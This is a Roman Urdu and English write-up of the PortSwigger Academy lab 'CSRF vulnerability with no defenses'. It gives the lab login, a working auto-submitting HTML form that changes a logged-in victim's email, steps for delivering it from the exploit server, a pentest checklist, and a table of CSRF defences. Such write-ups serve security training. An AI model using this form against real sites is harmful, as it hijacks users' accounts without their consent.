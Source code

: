 # 🛡️ CSRF Vulnerability with No Defenses – Urdu Style Note

## 🔬 Lab ka Naam:

> **CSRF vulnerability with no defenses** – PortSwigger Academy

---

## 🧠 Hum ne kya seekha?

* Jab kisi web app mein **sirf login** hota hai lekin **CSRF token ka use nahi** hota, to attacker **user ke browser se action karwa sakta hai** bina uski marzi ke.
* Browser to cookies bhejta hai hi — galti hoti hai **server ki**, jo blindly request accept kar leta hai.

---

## ⚙️ Lab Solve Karne ka A to Z Tareeqa

### ✅ Step 1: Login karo

* Open Burp's browser
* Login with:

  ```
  Username: wiener  
  Password: peter
  ```

---

### ✅ Step 2: Email Change Request pakro

* “My account” page pe jao
* Email address change karo (e.g., [test@csrf.com](mailto:test@csrf.com))
* Burp > HTTP History mein request dhoondo:

  ```
  POST /my-account/change-email
  ```

---

### ✅ Step 3: Action URL copy karo

* Us request pe right-click karo → **Copy URL**
* Example:

  ```
  https://LAB-ID.web-security-academy.net/my-account/change-email
  ```

---

### ✅ Step 4: Exploit HTML banao

```html
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="victim@csrf123.com">
</form>
<script>
  document.forms[0].submit();
</script>
```

📌 Notes:

* `action` mein apna lab URL lagao
* Email `wiener@...` na ho, koi naya ho

---

### ✅ Step 5: Exploit server pe paste karo

* Lab page pe “Go to exploit server” pe click karo
* Upar wala HTML **Body** mein paste karo
* Click: **Store exploit**

---

### ✅ Step 6: Deliver to Victim

* Ab **“Deliver to victim”** button dabao
* Agar sab sahi hua ho to:

  ```
  ✅ Congratulations, you solved the lab!
  ```

---

## 🔍 Yeh kis type ka attack tha?

| Attack Type          | Details                                           |
| -------------------- | ------------------------------------------------- |
| CSRF                 | Cross-Site Request Forgery                        |
| Kya hota hai?        | Victim ke browser se unwanted request bhejna      |
| Target kya hota hai? | State-changing actions like email/password change |

---

## 🔐 Client vs Server Side ka Role

| Side                 | Role                                          | Galti kiski? |
| -------------------- | --------------------------------------------- | ------------ |
| **Client (Browser)** | Request bhejta hai with cookies               | ❌ Nahi       |
| **Server (App)**     | Validate karna chahiye tha (CSRF token check) | ✅ Haan       |

---

## 🔍 Pentester ban'ne ke liye yeh kaise dhoondhna hai?

1. Login karo as normal user
2. Identify karo state-changing feature (email change, etc.)
3. Uski request capture karo Burp mein
4. Dekho:

   * CSRF token hai?
   * Cookie based hai?
5. Token hata ke request resend karo
6. Agar still success → vulnerable!
7. Exploit HTML banao aur confirm karo

---

## 🤔 Real World Example

* Tumne `exploit.com/csrf.html` banaya
* Victim login hai `target.com` pe
* Agar target.com mein CSRF defense nahi hai, to victim ka email change ho jayega

---

## ❓ Agar site secure ho (jaise beingguru.com)?

* Agar woh:

  * CSRF token use karta hai
  * SameSite cookies laga rakhi hain
  * Origin header check karta hai
    → To attacker kuch bhi nahi kar sakta.

---

## 🧠 Final Tip for Bug Bounty & Pentest

| Protection           | Explanation                                   |
| -------------------- | --------------------------------------------- |
| CSRF Token           | Every form should have unique token           |
| SameSite Cookies     | Prevents cross-site cookie sending            |
| Origin/Referer Check | Server should verify origin of request        |
| Re-authentication    | Critical action pe dobara password manga jaye |

---
